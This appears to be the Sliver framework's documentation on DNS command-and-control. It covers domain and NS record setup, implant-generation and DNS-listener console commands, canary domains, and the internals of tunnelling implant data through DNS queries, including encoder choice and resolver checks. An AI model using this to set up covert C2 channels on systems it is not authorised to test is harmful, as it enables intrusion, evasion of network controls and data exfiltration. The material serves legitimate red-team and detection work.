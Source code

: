 # Setup

Use the following steps to configure a domain for DNS C2 (and DNS Canaries), you can use any DNS provider you wish as long as you setup the records correctly. I recommend setting a TTL of ~5 minutes for each record.

1. Create an `A` record for your `example.com` pointing at your Sliver server (or redirector) IP address.
2. Create an `A` record for an `ns1` subdomain (i.e. `ns1.example.com`) that points to your Sliver server (or redirector) IP address.
3. Create an NS record with an arbitrary subdomain, for example `1` (i.e. `1.example.com`) which is managed by `ns1.example.com`.
4. You can now use `1.example.com` as your DNS C2 domain e.g. `generate --dns 1.example.com.` (always use the FQDN when issuing DNS commands).

__IMPORTANT:__ Always use the FQDN when issuing DNS commands in the Sliver console (e.g., `1.example.com.` note the trailing `.`). DNS is a finicky protocol!

The final configuration should look like for the domain `lil-peep.rip`:
![DNS Configuration](https://i.imgur.com/hpOnGJp.png)


__IMPORTANT:__ Remember to disable Cloudflare's "cloud" when configuring these records, and to adjust the TTLs.


### DNS Canaries

DNS Canaries are unique per-binary domains that are optionally inserted during the string obfuscation process. These domains are not actually used by the implant code and are deliberately _not obfuscated_ so that they show up if someone runs `strings` on the implant. If these domains are ever resolved (and you have a `dns` listener running) you'll get an alert telling which specific file was discovered by the blue team.

Example `generate` command with canaries, make sure to use the FQDN:

```
sliver > generate --http foobar.com --canary 1.example.com.
```

Make sure you have a DNS listener running, and to use the FQDN:

```
sliver > dns --domains 1.example.com.

[*] Starting DNS listener with parent domain(s) [1.example.com.] ...
[*] Successfully started job #1
```

You can view previously generated canaries with the `canaries` command.

### Ubuntu

__NOTE:__ On recent versions of Ubuntu, you may need to disable `systemd-resolved` as this binds to your local UDP:53 and fucks up everything about how DNS is supposed to work. To use a sane DNS configuration run the following commands as root because `resolved` probably broke `sudo` too:

```bash
systemctl disable systemd-resolved.service
systemctl stop systemd-resolved
rm -f /etc/resolv.conf
vim /etc/resolv.conf
```

Add a normal `resolv.conf`:

```
nameserver 1.1.1.1
nameserver 8.8.8.8
```

# Under the Hood

__NOTE:__ This describes the v1.5+ implementation of DNS C2.

### Design Goals

The current implementation of DNS C2 is primarily designed for "speed" (as far as DNS tunnels go) NOT stealth; it does not intend to be subtle in its use of DNS to tunnel data. While DNS can be a very useful protocol for stealthy signaling, Sliver here is creating a full duplex tunnels, doing so covertly would generally be far too slow to be practical. The general rule of thumb is that DNS C2 is easy to detect _if you look_. That's not to say DNS C2 isn't useful or will be immediately detected. As DNS does not require direct "line of sight" networking, it is often useful for tunneling out of highly restricted networks, and if the environment has not been instrumented to specifically detect DNS C2 it will likely go undetected.

For example glossing over some details, if a DNS client attempts to `foo.1.example.com` it will query it's local resolver for an answer. If the resolver does not know the answer it will start "recursively" resolving the domain eventually finding its way to the "authoritative name server" for the domain, which is controlled by the owner of `example.com`. DNS C2 works by stuff data in a subdomain, and then sending a query for that subdomain to the authoritative name server.

```
[implant] <--> [resolver]
                  |<------> [.]
                  |<------> [.com.]
                  |<------> [example.com.] (attacker controlled)
```

This allows an implant to establish a connection to an attacker controlled host even when the implant cannot route TCP or UDP traffic to the internet. The tradeoff is that DNS queries are generally very small, in fact if we're lucky we can maybe encode around ~175 bytes per query (more on that later). So if you want to download a 2Mb file then we're gonna have to send _a lot of_ queries, this means that DNS communication is going to be _slow_ (~30Kbps) even at the best of times.

### Rude DNS Resolvers

The novice hacker often may think that something like DNS, being a fundamental building block of the internet, would be strictly defined and implemented. This of course could not be further from reality; the DNS protocol specification is really more what you call "guidelines" than actual rules. It is common for DNS resolvers to ignore TTL values, modify query contents, drop packets, and lie in responses. Since we cannot control what resolvers we may need use in an operational environment, and we want to build reliable C2 connections, we must expect this type of behavior and design around it.

### Encoder Selection

So if we want to build a "fast" DNS tunnel, we need to be able to pack as much data into each request as possible, more data per query the fewer queries we need to send for a given message.

So how much data can we stuff into a DNS query? Well let's take a look at what goes into a DNS query, a DNS query contains some header fields and then a "questions" section, a single query may contain multiple questions. For example, we can ask "is there an A record for example.com" (an A records contain IPv4 addresses). Now, we can encode a handful of bits into some of the header fields and a couple other sections like the Type/Class, but by far the largest field is `QNAME`, which contains the domain we're asking a question about: 

```
                                    1  1  1  1  1  1
      0  1  2  3  4  5  6  7  8  9  0  1  2  3  4  5
    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
    |                                               |
    /                     QNAME                     /
    /                                               /
    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
    |                     QTYPE                     |
    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
    |                     QCLASS                    |
    +--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+--+
```

Thus we'll focus on encoding data into the `QNAME` (the domain), domains can be up to 254 characters in length and may only contain ASCII `a-z`, `A-Z`, `0-9`, `-`, but `-` may not appear at the beginning of a name, and of course `.` separators. Each subdomain is separated by a `.` and may be up to 63 characters in length. However, DNS is a case-insensitive protocol thus `a` and `A` are considered equal from DNS' standpoint. Now as I said before the spec is really more guidelines than rules, so both `a` and `A` are technically allowed they're just considered equal in DNS' semantics.

Now we want to send arbitrary binary data but DNS does not allow binary data in the `QNAME` so we need to encode binary data into the allowed character set. Typically of course to encode arbitrary binary data into ASCII we'd use [Base64](https://en.wikipedia.org/wiki/Base64) encoding, but DNS only allows 62 distinct characters (`a-z`, `A-Z`, `0-9`) so Base64 cannot be used. Additionally, we must consider that to Base64 `a` and `A` are distinct values whereas to DNS they are not. So it may not always be safe to use a case-sensitive encoding like Base64 if some rude resolver were to convert all the characters in one of our `QNAME`s to lower case. As far as DNS is concerned this is just fine, but it would corrupt the bytes decoded by the server.

To workaround this problem many DNS C2 implementations instead use hexadecimal encoding, which is not case-sensitive and uses only characters (`0-9`, `A-F`), which are allowed in a `QNAME`, to transfer data back and forth from the server. The issue with this is that hexadecimal is a very inefficient encoding, resulting in a x2 size (takes two bytes to encode one byte), and since we want to minimize the number of queries we need to send this isn't a great option. Instead we could use [Base32](https://en.wikipedia.org/wiki/Base32), which is also case-insensitive but uses more characters to display bytes and thus is more efficient at around x1.6 size. Even better yet would be [Base58](https://en.wikipedia.org/wiki/Binary-to-text_encoding#Base58), which is case sensitive like Base64 but only uses chars allowed in a `QNAME`, at a little over x1.33 message size, but we cannot always rely on being able to use Base58 if we encounter a rude resolver.

Sliver's solution to this problem is to first try to detect if Base58 can be used to reliably encode data, and if a problem is detected then fallback to Base32. 

### Detecting Rude Resolvers

The most common DNS query is an `A` record asking for the IPv4 address associated with some domain name. An IPv4 address is a 4-byte value typically displayed as four octets in Base10 e.g. `192.168.1.1`, but to DNS this is just an arbitrary 4-byte (32-bit) value.

In order to detect if a resolver corrupted any bytes in our message the authoritative name server encodes the [CRC32](https://en.wikipedia.org/wiki/Cyclic_redundancy_check) of the data it received in the IP address of any `A` record that it receives. The implant first generates random bytes and then for each resolver on a host we try to resolve these random bytes and check to see if the CRC32 calculated by the server matches the CRC32 of the data we sent. If any mismatches occur Base32 is used instead of Base58.

### Bytes Per Query

Since the encoder used to send data is selected at runtime, as described above, the number of bytes that can be encoded into a query depends on both the length of the parent domain and the encoder selected. Therefore given some message of `n` bytes we must dynamically determine how many queries are needed to send the message.

First we calculate how many characters of the total domain can be used to encode data, which depends on the length of the parent domain. A maximum of 254 characters per domain always applies regardless of the number of subdomains. So for example we have more space leftover when using `abc.com` (254 - 7 = 247) vs. `thisisalongdomainname.com` (254 - 25 = 229), however we must also account for `.` every 63 characters, and the number of these may differ depending on the space leftover after the parent domain. The number of characters that can be used to represent data is called the "subdata space" (i.e., not counting the parent domain and `.`'s) and is calculated as:

```go
254 - len(parent) - (1 + (254-len(parent))/64)
```

This "subdata space" is the maximum number of characters our encoder (Base32 or Base58) can output per message.
